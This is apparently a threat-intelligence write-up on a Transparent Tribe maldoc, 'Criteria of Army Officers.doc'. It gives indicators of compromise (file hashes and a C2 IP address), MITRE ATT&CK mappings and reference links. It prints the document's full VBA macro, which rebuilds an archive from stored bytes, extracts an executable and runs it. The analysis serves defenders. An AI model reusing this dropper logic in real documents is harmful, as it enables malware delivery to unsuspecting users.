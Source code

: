 # Not as so transparent
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Threat Intelligence](#Intel)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [Yara Rules](#Yara)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Knowledge Graph](#Knowledge)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Ressources](#Ressources)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is a maldoc called ```"Criteria of Army Officers.doc" ```, this use a macro for extract and execute the PE file depends on the version of the operating system </h6>

```vb
Sub unMoferzip(Fname As Variant, FileNameFolder As Variant)
 Dim FSO As Object
 Dim oApp As Object
 'Extract the files into the Destination folder
 Set oApp = CreateObject("Shell.Application")
 oApp.Namespace(FileNameFolder).CopyHere oApp.Namespace(Fname).items, &H4
End Sub
Sub MoferfileLdr()
 Dim path_Mofer_file As String
 Dim file_Mofer_name  As String
 Dim zip_Mofer_file  As Variant
 Dim fldr_Mofer_name  As Variant
 file_Mofer_name = "ulhtagnias"
 fldr_Mofer_name = Environ$("ALLUSERSPROFILE") & "\DeIA-WIR\"
 If Dir(fldr_Mofer_name, vbDirectory) = "" Then
  MkDir (fldr_Mofer_name)
 End If
 zip_Mofer_file = fldr_Mofer_name & file_Mofer_name & ".zip"
 path_Mofer_file = fldr_Mofer_name & file_Mofer_name & ".exe"
 Dim ar1Mofer() As String
 Dim btsMofer() As Byte
 If InStr(Application.System.Version, "6.2") > 0 Or InStr(Application.System.Version, "6.3") > 0 Then
  ar1Mofer = Split(UserForm1.TextBox2.Text, "'")
 Else
  ar1Mofer = Split(UserForm1.TextBox1.Text, "'")
 End If
 Dim linMofer As Double
 linMofer = 0
 For Each vl In ar1Mofer
  ReDim Preserve btsMofer(linMofer)
  btsMofer(linMofer) = CByte(vl)
  linMofer = linMofer + 1
 Next
  Open zip_Mofer_file For Binary Access Write As #2
   Put #2, , btsMofer
 Close #2
 If Len(Dir(path_Mofer_file)) = 0 Then
  Call unMoferzip(zip_Mofer_file, fldr_Mofer_name)
 End If
   Shell path_Mofer_file, vbNormalNoFocus
End Sub
```

<h2>Threat Intelligence</h2><a name="Intel"></a></h2>
<h2> Cyber kill chain <a name="Cyber-kill-chain"></a></h2>

<h2> Indicators Of Compromise (IOC) <a name="IOC"></a></h2>
<h6> List of all the Indicators Of Compromise (IOC)</h6>

|Indicator|Description|
| ------------- |:-------------:|
|Criteria of Army Officers.doc|1cb726eab6f36af73e6b0ed97223d8f063f8209d2c25bed39f010b4043b2b8a1|
|ulhtagnias.exe|d2c46e066ff7802cecfcb7cf3bab16e63827c326b051dc61452b896a673a6e67|
|198.46.177.73|IP C2|

<h6> The IOC can be exported in <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Pakistan/APT/Transparent%20Tribe/22-01-20/json/ioc.json">JSON</a></h6>

<h2> References MITRE ATT&CK Matrix <a name="Ref-MITRE-ATTACK"></a></h2>

|Enterprise tactics|Technics used|Ref URL|
| :---------------: |:-------------| :------------- |
|Discovery|Query Registry|https://attack.mitre.org/techniques/T1012/|
|C&C|Uncommonly Used Port|https://attack.mitre.org/techniques/T1065/|
|Defense Evasion|Scripting|https://attack.mitre.org/techniques/T1064/|
|Execution|Scripting|https://attack.mitre.org/techniques/T1064/|

<h6> This can be exported as JSON format <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Pakistan/APT/Transparent%20Tribe/22-01-20/json/Mitre-APT36-22-01-20.json">Export in JSON</a></h6>
<h2>Yara Rules<a name="Yara"></a></h2>
<h6> A list of YARA Rule is available <a href="">here</a></h6>
<h2>Knowledge Graph<a name="Knowledge"></a></h2><a name="Know"></a>
<h6>The following diagram shows the relationships of the techniques used by the groups and their corresponding malware:</h6>
<p align="center">
  <img src="">
</p>
<h2>Links <a name="Links"></a></h2>
<h6> Original tweet: </h6><a name="tweet"></a>

* [https://twitter.com/Arkbird_SOLG/status/1219769450989334528](https://twitter.com/Arkbird_SOLG/status/1219769450989334528) 

<h6> Links Anyrun: <a name="Links-Anyrun"></a></h6>

* [Criteria of Army Officers.doc](https://app.any.run/tasks/de93d3a4-9ff0-4bed-b492-1f45214a0443)

<h6> Resources : </h6><a name="Ressources"></a>

* [Operation Transparent Tribe - APT Targeting Indian Diplomatic and Military Interests](https://www.proofpoint.com/us/threat-insight/post/Operation-Transparent-Tribe)
